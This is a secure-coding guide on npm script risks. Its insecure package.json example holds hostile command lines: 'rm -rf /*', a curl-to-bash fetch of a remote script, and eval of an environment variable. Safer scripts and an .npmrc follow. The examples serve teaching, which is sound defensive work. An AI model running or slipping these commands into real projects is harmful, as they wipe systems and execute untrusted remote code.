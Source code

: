 ```yaml
---
title: Insecure NPM Scripts
description: Securing npm scripts and preventing script injection attacks
---
```


## Common Misconfigurations

1. **Running untrusted packages' scripts automatically**
2. **Using unsafe script commands**
3. **Not validating environment variables in scripts**
4. **Missing script injection protection**
5. **Excessive permissions in scripts**

## Vulnerable Example

```json
// package.json with insecure scripts
{
  "name": "insecure-scripts-app",
  "scripts": {
    // Command injection vulnerability
    "build": "echo Building $npm_package_version && webpack",
    
    // Unsafe rm command
    "clean": "rm -rf /*",
    
    // Downloading and executing remote scripts
    "setup": "curl -s https://unknown-site.com/script.sh | bash",
    
    // Using eval with user input
    "process": "node -e \"eval(process.env.USER_INPUT)\"",
    
    // No validation on file operations
    "deploy": "cp -r ./* $DEPLOY_PATH",
    
    // Running with elevated privileges
    "install": "sudo npm link"
  }
}

// No .npmrc security settings
// No ignore-scripts configuration
```

## Secure Solution

```json
// package.json with secure scripts
{
  "name": "secure-scripts-app",
  "scripts": {
    // Safe, validated commands
    "build": "node scripts/build.js",
    "clean": "node scripts/clean.js",
    "test": "jest --coverage",
    "lint": "eslint src/",
    
    // Use npm run-script for chaining
    "prebuild": "npm run clean",
    "postbuild": "npm run test",
    
    // Validated deployment
    "deploy": "node scripts/deploy.js --validate"
  }
}
```

```settings
# .npmrc with security configurations
ignore-scripts=true
audit-level=moderate
fund=false
```

```code
// scripts/build.js - Secure build script
const { execSync } = require('child_process');
const path = require('path');

// Validate environment
const version = process.env.npm_package_version;
if (!/^\d+\.\d+\.\d+$/.test(version)) {
  throw new Error('Invalid version format');
}

// Use safe paths
const buildPath = path.join(__dirname, '..', 'dist');

// Execute with limited permissions
try {
  execSync('webpack --mode production', {
    stdio: 'inherit',
    cwd: process.cwd(),
    env: {
      ...process.env,
      NODE_ENV: 'production'
    }
  });
} catch (error) {
  console.error('Build failed:', error.message);
  process.exit(1);
}
```

```code
// scripts/clean.js - Safe cleanup script
const fs = require('fs').promises;
const path = require('path');

const ALLOWED_PATHS = ['dist', 'build', '.cache'];

async function clean() {
  for (const dir of ALLOWED_PATHS) {
    const fullPath = path.join(process.cwd(), dir);
    
    // Validate path is within project
    if (!fullPath.startsWith(process.cwd())) {
      console.error(`Invalid path: ${dir}`);
      continue;
    }
    
    try {
      await fs.rm(fullPath, { recursive: true, force: true });
      console.log(`Cleaned: ${dir}`);
    } catch (error) {
      // Directory doesn't exist, skip
    }
  }
}

clean().catch(console.error);
```

## Best Practices

* Set ignore-scripts=true in .npmrc.
* Validate all environment variables.
* Use dedicated script files instead of inline commands.
* Avoid shell command execution when possible.
* Implement proper input validation.
* Never use eval() or Function() with user input.